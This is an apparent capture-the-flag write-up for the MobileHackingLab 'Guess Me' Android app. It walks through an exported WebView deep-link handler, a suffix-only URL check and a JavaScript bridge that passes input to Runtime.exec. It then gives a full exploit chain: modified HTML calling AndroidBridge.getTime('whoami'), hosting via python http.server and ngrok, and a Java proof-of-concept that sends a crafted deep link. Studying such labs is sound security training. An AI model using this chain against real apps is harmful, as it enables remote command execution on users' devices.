

## Introduction
Welcome to the "Guess Me" Deep Link Exploitation Challenge! Immerse yourself in the world of cybersecurity with this hands-on lab. This challenge revolves around a fictitious "Guess Me" app, shedding light on a critical security flaw related to deep links that can lead to remote code execution within the app's framework.

## Objective
Exploit a Deep Link Vulnerability for Remote Code Execution: Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, allowing you to execute remote code and gain unauthorized access.

## Skills Required
Android App Development Knowledge: A basic understanding of Android app development is essential.
Deep Linking Understanding: Familiarity with deep linking concepts and their implications in app security.
Remote Code Execution Concepts: Basic knowledge of remote code execution and its potential impact.


This `com.mobilehackinglab.guessme.WebviewActivity` is for handling `mhl://mobilehackinglab` links, and it is explicitly `exported` to allow other apps to invoke it. The intent-filter enables it to respond to VIEW intents with the specified scheme and host, making it accessible for browsing.

```xml
<activity
    android:name="com.mobilehackinglab.guessme.WebviewActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="mhl"
            android:host="mobilehackinglab"/>
    </intent-filter>
</activity>
```

In this `WebviewActivity`, the onCreate method initializes a WebView and enables JavaScript execution. It also adds a JavaScript interface called `AndroidBridge`, and processes a deep link with `handleDeepLink()` passed via `getIntent()`.

```java
public final class WebviewActivity extends AppCompatActivity {
    private WebView webView;

    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        ...
        webSettings.setJavaScriptEnabled(true);
        ...
        webView3.addJavascriptInterface(new MyJavaScriptInterface(), "AndroidBridge");
        ...
        handleDeepLink(getIntent());
    }
}
```


```java
private final void handleDeepLink(Intent intent) {
    Uri uri = intent != null ? intent.getData() : null;
    if (uri != null) {
        if (isValidDeepLink(uri)) {
            loadDeepLink(uri);
        } else {
            loadAssetIndex();
        }
    }
}
```

The `handleDeepLink` method retrieves the URI from the `Intent` and checks if it's valid. If the deep link is valid, it loads the deep link content, otherwise, it loads an asset index.

```java
private final boolean isValidDeepLink(Uri uri) {
    if ((!Intrinsics.areEqual(uri.getScheme(), "mhl") && !Intrinsics.areEqual(uri.getScheme(), "https")) || !Intrinsics.areEqual(uri.getHost(), "mobilehackinglab")) {
        return false;
    }
    String queryParameter = uri.getQueryParameter("url");
    return queryParameter != null && StringsKt.endsWith$default(queryParameter, "mobilehackinglab.com", false, 2, (Object) null);
}
```

The `loadDeepLink` method extracts the "url" query parameter from the `Uri`, converts it to a string, and then loads the URL into the `WebView` for display.

```java
private final void loadDeepLink(Uri uri) {
    String fullUrl = String.valueOf(uri.getQueryParameter("url"));
    WebView webView = this.webView;
    ...
    webView.loadUrl(fullUrl);
    ...
}
```

The `loadAssetIndex` method loads a local HTML file `index.html` from the app's `assets` folder into the `WebView`.

```java
private final void loadAssetIndex() {
    WebView webView = this.webView;
    ...
    webView.loadUrl("file:///android_asset/index.html");
}
```

The `MyJavaScriptInterface` class provides two methods for JavaScript interaction with the Android app. The `loadWebsite` method loads a specified URL into the WebView. The `getTime` method executes a system command to fetch the output and returns it as a string without sanitizing the string input.

```java
public final class MyJavaScriptInterface {
    public MyJavaScriptInterface() {
    }

    @JavascriptInterface
    public final void loadWebsite(String url) {
        ...
        WebView webView = WebviewActivity.this.webView;
        ...
        webView.loadUrl(url);
    }

    @JavascriptInterface
    public final String getTime(String Time) {
        Intrinsics.checkNotNullParameter(Time, "Time");
        try {
            Process process = Runtime.getRuntime().exec(Time);
            InputStream inputStream = process.getInputStream();
            Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
            Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
            BufferedReader reader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
            String readText = TextStreamsKt.readText(reader);
            reader.close();
            return readText;
        } catch (Exception e) {
            return "Error getting time";
        }
    }
}
```

When clicked, the `loadWebsite()` JavaScript function redirects the user to "https://www.mobilehackinglab.com/". Additionally, it fetches the system time from the Android app using the `AndroidBridge.getTime()` method, displays the time of visit in the paragraph,

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

<script>

    function loadWebsite() {
       window.location.href = "https://www.mobilehackinglab.com/";
    }

    // Fetch and display the time when the page loads
    var result = AndroidBridge.getTime("date");
    var lines = result.split('\n');
    var timeVisited = lines[0];
    var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
    document.getElementById('result').innerText = fullMessage;

</script>

</body>
</html>
```

We need now to modify our own `index.html` file to execute a command `whoami` as follows

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

<script>

    function loadWebsite() {
       window.location.href = "https://www.mobilehackinglab.com/";
    }

    // Fetch and display the time when the page loads
    var result = AndroidBridge.getTime("whoami");
    var lines = result.split('\n');
    var timeVisited = lines[0];
    var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
    document.getElementById('result').innerText = fullMessage;

</script>

</body>
</html>
```

Next we create a python server on the current directory with our exploit

```bash
python -m http.server
```

We use ngrok to server the file in the localhost

```bash
ngrok http http://localhost:8000
```

We then write a poc to trigger the exploit and run out command

```java
package com.example.test;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);
        button.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.mobilehackinglab.guessme", "com.mobilehackinglab.guessme.WebviewActivity");
            // the app checks is the url ends with mobilehackinglab.com soo we incluse it
            intent.setData(Uri.parse("mhl://mobilehackinglab?url=https://c59f-41-90-188-113.ngrok-free.app/index.html?mobilehackinglab.com"));
            startActivity(intent);
        });
    }
}
```

Finally our command gets executed successfully

